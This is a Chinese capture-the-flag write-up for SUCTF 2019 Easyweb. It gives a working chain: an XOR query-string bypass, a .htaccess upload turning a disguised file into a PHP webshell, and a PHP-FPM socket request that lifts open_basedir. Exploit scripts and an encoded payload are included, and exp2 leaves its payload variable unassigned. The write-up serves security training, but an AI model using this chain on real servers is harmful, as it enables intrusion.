

## SUCTF 2019 Easyweb

### 第一层

黑名单执行，参考自 https://xz.aliyun.com/t/5677 ，另外限制了长度。

Php的经典特性“Use of undefined constant”，会将代码中没有引号的字符都自动作为字符串，7.2开始提出要被废弃，不过目前还存在着。

Ascii码大于 0x7F 的字符都会被当作字符串，而和 0xFF 异或相当于取反，可以绕过被过滤的取反符号。

可以传入phpinfo，也可以进入第二层get_the_flag 函数

```
?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=get_the_flag
```

## 第二层

.htaccess文件上传，也算是屡见不鲜了

上传的 .htaccess文件可以为如下，我上传的文件是 zenis.pxp

 ```
#define width 1
#define height 1
AddType application/x-httpd-php .pxp
php_value auto_append_file "php://filter/convert.base64-decode/resource=zenis.pxp"
 ```

后面上传的文件可以加一个四个字符 b"\x18\x81\x7c\xf5"，这样base64之后开头就是 GIF89a了，如下图所示




## 第三层

  有了webshell后，发现有 open_basedir限制，在www目录下发现文件 F1AghhhhhhhhhhhhhHH ，但是发现是个假的 flag ，还提示说有 php7.2-fpm has been initialized in unix socket mode!

这里不难联想到 fpm 绕过 open_basedir，disable_functions等限制，参考[open_basedir bypass with IP-based PHP-FPM](https://bugs.php.net/bug.php?id=70134)今年不只考了一次，个人研究水品有限，望各位师傅海涵。tcccccccccccl...

php7.2-fpm.sock默认在

unix:///run/php/php7.2-fpm.sock

借用p神的脚本魔改一下，不过还要加上对 open_basedir 的重设

```
'PHP_VALUE': 'auto_prepend_file = php://input'+chr(0x0A)+'open_basedir = /',
```

后面就是常规套路了

## EXP

### exp1.py

改自 p 神的payload，这里贴出关键部分，可以生成base64版，以 GIF89a 开头的payload，

```
    def request(self, nameValuePairs={}, post=''):
        #if not self.__connect():
        #    print('connect failure! please check your fasctcgi-server !!')
        #    return
。。。。。。
        #print(request)
        #print(base64.b64encode(request))
        pay = "<?php \n$exp = \""+base64.b64encode(request).decode()+"\";" 
        pay = pay + """
    print_r($exp);
    $sock=stream_socket_client('unix:///run/php/php7.2-fpm.sock');
    stream_socket_sendto($sock, base64_decode($exp));
    print("\n");
    while(!feof($sock)){
        print_r(fread($sock, 4096));
    }
    fclose($sock);
"""
        print(base64.b64encode(b"\x18\x81\x7c\xf5"+pay.encode()))            
        exit()
...
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input'+chr(0x0A)+'open_basedir = /',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    print(force_text(response))

```

### exp2.py

将 exp.py 生成的 payload 放到 exp 变量即可

```
import requests

url = "http://192.168.188.128:8810/"
payload = "?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=get_the_flag"
files = {'file':(".htaccess","""#define width 1
#define height 1
AddType application/x-httpd-php .pxp
php_value auto_append_file "php://filter/convert.base64-decode/resource=zenis.pxp""")}
r1 = requests.post(url+payload, files=files)
#print(r1.text)
"""GIF89Tw/cGhwIAokZXhwID0gIkFRRjZPQUFJQUFBQUFRQUFBQUFBQUFFRWVqZ0I3QUFBRVF0SFFWUkZWMEZaWDBsT1ZFVlNSa0ZEUlVaaGMzUkRSMGt2TVM0d0RnUlNSVkZWUlZOVVgwMUZWRWhQUkZCUFUxUVBGMU5EVWtsUVZGOUdTVXhGVGtGTlJTOTJZWEl2ZDNkM0wyaDBiV3d2YVc1a1pYZ3VjR2h3Q3hkVFExSkpVRlJmVGtGTlJTOTJZWEl2ZDNkM0wyaDBiV3d2YVc1a1pYZ3VjR2h3REFCUlZVVlNXVjlUVkZKSlRrY0xGMUpGVVZWRlUxUmZWVkpKTDNaaGNpOTNkM2N2YUhSdGJDOXBibVJsZUM1d2FIQU5BVVJQUTFWTlJVNVVYMUpQVDFRdkR3NVRSVkpXUlZKZlUwOUdWRmRCVWtWd2FIQXZabU5uYVdOc2FXVnVkQXNKVWtWTlQxUkZYMEZFUkZJeE1qY3VNQzR3TGpFTEJGSkZUVTlVUlY5UVQxSlVPVGs0TlFzSlUwVlNWa1ZTWDBGRVJGSXhNamN1TUM0d0xqRUxBbE5GVWxaRlVsOVFUMUpVT0RBTENWTkZVbFpGVWw5T1FVMUZiRzlqWVd4b2IzTjBEd2hUUlZKV1JWSmZVRkpQVkU5RFQweElWRlJRTHpFdU1Rd1FRMDlPVkVWT1ZGOVVXVkJGWVhCd2JHbGpZWFJwYjI0dmRHVjRkQTRDUTA5T1ZFVk9WRjlNUlU1SFZFZzBNZ2t3VUVoUVgxWkJURlZGWVhWMGIxOXdjbVZ3Wlc1a1gyWnBiR1VnUFNCd2FIQTZMeTlwYm5CMWRBcHZjR1Z1WDJKaGMyVmthWElnUFNBdkR4WlFTRkJmUVVSTlNVNWZWa0ZNVlVWaGJHeHZkMTkxY214ZmFXNWpiSFZrWlNBOUlFOXVBUVI2T0FBQUFBQUJCWG80QUNvQUFEdy9jR2h3SUhCeWFXNTBYM0lvYzJOaGJtUnBjaWduTDNaaGNpOTNkM2N2YUhSdGJDY3BLVHMvUGdFRmVqZ0FBQUFBIjsKICAgIHByaW50X3IoJGV4cCk7CiAgICAkc29jaz1zdHJlYW1fc29ja2V0X2NsaWVudCgndW5peDovLy9ydW4vcGhwL3BocDcuMi1mcG0uc29jaycpOwogICAgc3RyZWFtX3NvY2tldF9zZW5kdG8oJHNvY2ssIGJhc2U2NF9kZWNvZGUoJGV4cCkpOwogICAgcHJpbnQoIgoiKTsKICAgIHdoaWxlKCFmZW9mKCRzb2NrKSl7CiAgICAgICAgcHJpbnRfcihmcmVhZCgkc29jaywgNDA5NikpOwogICAgfQogICAgZmNsb3NlKCRzb2NrKTsK"""
files = {'file':("zenis.pxp",exp1)}
r2 = requests.post(url+payload, files=files)
print(r2.text)
print(requests.get(url+r2.text).text)

```


